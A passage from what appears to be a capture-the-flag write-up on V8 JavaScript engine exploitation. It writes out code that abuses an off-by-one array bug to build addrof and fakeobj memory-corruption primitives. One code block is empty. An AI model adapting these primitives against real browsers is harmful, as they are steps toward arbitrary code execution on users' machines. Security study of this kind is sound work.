 Moving on, we need to create some float arrays, to get the required leaks, we also need them for doing the `fakeobj` and the `addrof` primitve, without further ado, let's start:-

```js
var float_arr = [1.1, 2.2, 3.3, 4.4, 5.5];
var obj = {"A":1.1};
var reg = [1, 2, 3, 4];
```

These are the variables that will be involved further in the exploit, next off, we need to get the `addrof` primitve, this means we need to leverage the off by one to read address of an object, let's see:-


```js
var float_arr_map = ftoi(float_arr.GetLastElement(), 32)
var reg_arr_map = float_arr_map - 0xa0n;

console.log("[*] Float array map   :  0x" + float_arr_map.toString(16));
console.log("[*] Regular array map :  0x" + reg_arr_map.toString(16));


function addrof(in_obj) {
	float_arr.SetLastElement(itof(reg_arr_map, 32));
	float_arr[0] = in_obj;
	float_arr.SetLastElement(itof(float_arr_map, 32));
	let addr = float_arr[0];
	return ftoi(addr, 64)
}
```
Here, first we get the map address of the `float_arr` and the `reg` array, then we have a function named `addrof`, this takes an object as the argument that would be the object address we need to get the address of, what we do is first overwrite the `float_arr` map object with the `reg` array, this means, as of now, the map address of the `float_arr` is pointing to the map of the `reg` array, then we make the first object of the `float_arr` to that of object we need to get the address of, then we place the map of the `float_arr` right back to where it was.

![addrof primitve](/img/ropetwo/addrof.png)

Considering, we have a map leak, if we try to read what is stored at that address, it will result in:-


```asm

```

Success, with this out of the way, as of the v8 exploitation goes, we need to have a `fakeobj` primitive. The `fakeobj` function is below:-

```js
function fakeobj(addr) {
	float_arr[0] = itof(addr, 32);
	float_arr.SetLastElement(itof(reg_arr_map, 32));
	let fake = float_arr[0];
	float_arr.SetLastElement(itof(float_arr_map, 32));
	return fake;
}
```
